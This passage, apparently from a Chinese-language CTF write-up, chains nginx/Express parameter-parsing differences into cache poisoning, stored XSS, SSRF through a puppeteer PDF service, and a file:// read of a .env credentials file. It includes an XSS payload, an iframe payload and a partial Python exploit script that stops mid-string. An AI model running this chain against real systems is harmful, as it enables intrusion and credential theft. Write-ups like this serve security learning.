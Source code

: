 虽然nginx只会解析第一个参数，但是他会把uri全部转发给后端服务器。那么当我们传入的参数为`?period=value1&period=value2`，看一下qs，也就是express默认的url解析库是怎么解析的。

```js
var qs = require('qs');

var obj = qs.parse('period=value1&period=value2');

console.log(obj)
// $ node test.js
// { period: [ 'value1', 'value2' ] }
```

可以看到这种参数会被qs解析成数组。这两种解析的差异配上nginx的缓存，在加上stats服务的响应内容可控，period作为数组，toString方法相当于是 `",".join(period)`。因为缓存内容只和period参数名和period参数值有关，攻击者只要发送`?period=1m&period=<img src=1 onerror=alert('poisoned')>`，nginx会用`period=1m`当成缓存key（猜的，具体是什么格式得看nginx源码），内容为响应的内容。
```js
    return res.json({
      success: false,
      error: `<strong>${period} is invalid.</strong> Please specify one of the following values: ${Object.keys(validPeriods).join(", ")}`,
    });
```

![4.png](4.png)
![5.png](5.png)

可以看到，不同的请求参数响应的内容和ETag都是一样的。

## 0x04 xss（跨域）->ssrf

通过缓存中毒，我们可以实现不控制参数也能让后端puppeteer访问的时候xss，相当于是反射型xss变成存储型了。

下一步应该是如何能读到.env的文件的账号密码。但是由于浏览器的限制，默认情况下是没办法加载本地文件的。

之前在审代码的时候发现，在pdf和stats，都加了个任意跨域，也就是可以从任意的网站源访问这个后端服务。

```js
app.use((req, res, next) => {
  res.set("Access-Control-Allow-Origin", "*");
  next();
});
```

那我们可以在恶意的js代码中访问`http://127.0.0.1:3002/generate?url=`(pdf服务)，url可控，岂不是就ssrf了。

再加上浏览器是支持file协议的，那就可以实现任意文件读取了。xss_exp如下，思路就是通过缓存中毒注入恶意js，然后访问`/generate-report`让后端触发xss实现文件读取，这里还有一个点就是按理直接注入`<iframe src="http://127.0.0.1:3002/generate?url=file:///app/services/web/.env" width=200 height=200></iframe>`（本地浏览器是可以加载iframe的），后端访问的pdf里应该就能加载包含这个iframe的内容，但是可能puppeteer导出pdf的时候无法把iframe加载进去，所以只能再起一个服务接收得到的pdf。

```python
def exp(payload):
    proxies = {
        "http": "http://127.0.0.1:8080"
    }
    base_url = "http://target:port"
    url = "{}/stats?period=1m&period={}".format(base_url, quote(payload))
    requests.get(url, proxies=proxies)

    url = "{}/generate-report".format(base_url)
    # 让后端puppeteer触发xss
    r = requests.get(url, proxies=proxies)
    with open("res.pdf", "wb") as f:
        f.write(r.content)


if __name__ == '__main__':
    xss_code = '''fetch('http://127.0.0.1:3002/generate?url=file:///app/services/web/.env')
```